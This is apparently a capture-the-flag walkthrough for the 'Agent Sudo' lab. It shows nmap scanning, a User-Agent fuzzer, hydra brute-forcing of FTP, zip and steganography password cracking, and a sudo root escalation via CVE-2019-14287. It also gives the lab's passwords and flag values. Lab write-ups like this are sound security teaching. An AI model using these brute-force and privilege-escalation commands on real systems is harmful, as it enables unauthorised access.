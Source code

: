 
# Agent Sudo


### How many ports are open

<details><summary>3</summary>
<p>

```bash
export IP= 
nmap -A $IP -oN scans/nmap.log
```
![](images/nmap.png) <br>
</p>
</details>

### How you redirect yourself to a secret page?

![](images/image0.png)

Lets try to make request using different agents, from A-Z with a fuzzer


<details><summary>fuzz.py</summary>
<p>

```python
import requests
import string
import time

url = 'http://10.10.104.127/'

response_length = []
for element in list(string.ascii_uppercase[:26]): #Loops uppercase letters A-Z for User-Agent
    print("Agent " + element)
    print("--------------------------------------")
    headers = {'User-Agent': element }
    response = requests.get(url, headers=headers)
    if len(response.text) not in response_length:
        response_length.append(len(response.text))
        print(response.text)
        time.sleep(1)
    else:
        time.sleep(1)
    print("--------------------------------------")
```


![](images/agentchris.png) <br>
</p>
</details>

### What is the agent name?
We have username **chris**, brute force it with ssh and ftp

### FTP password
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp -V
```
>ftp password = crystal <br>

![](images/image1.png)



### Zip file password

Extract the loot with from the ftp folder with `mget *`

These images are suspicious
``binwalk -e cutie.png``
![](images/image2.png)

Check the extracted info<br>
![](images/image3.png)

Zip file requires a password, crack it with john

```bash
/usr/bin/zip2john 8702.zip > hash.txt   # This creates a hash from the file so john can parse it
john hash.txt                           # Brute force
```
![](images/video1.gif)

>Password: alien <br>


### Steg password

Extract the file with the password
```bash
7z e 8702.zip       #Use alien as password
```
![](images/encode64.png)

>Password: Area51 <br>


### Who is the other agent (in full name)?

To attack **.jpg** files we can use another tool called [&lt;steghide&gt;](https://github.com/StefanoDeVuono/steghide)  and stegcracker [&lt;stegcracker&gt;](https://pypi.org/project/stegcracker/)


```bash
steghide extract -sf cute-alien.jpg # Use password Area51
```
![](images/video2.gif)

> Username: james <br>

### SSH Password

> Password: hackerrules!<br>



### What is the user flag?


Connect to ssh with those credentials

Once in, do Priv Esc
```
sudo -l                 #Check what commands can be run
sudo -u#-1 /bin/bash    #Vuln CVE : 2019-14287 gives root
```

User flag
`cat $(find / -name *flag.txt 2>/dev/null)`
> b03d975e8c92a7c04146cfa7a5a313c7

root flag
`cat $(find / -name *root.txt 2>/dev/null)`
> b53a02f55b57d4439e3341834d70c062
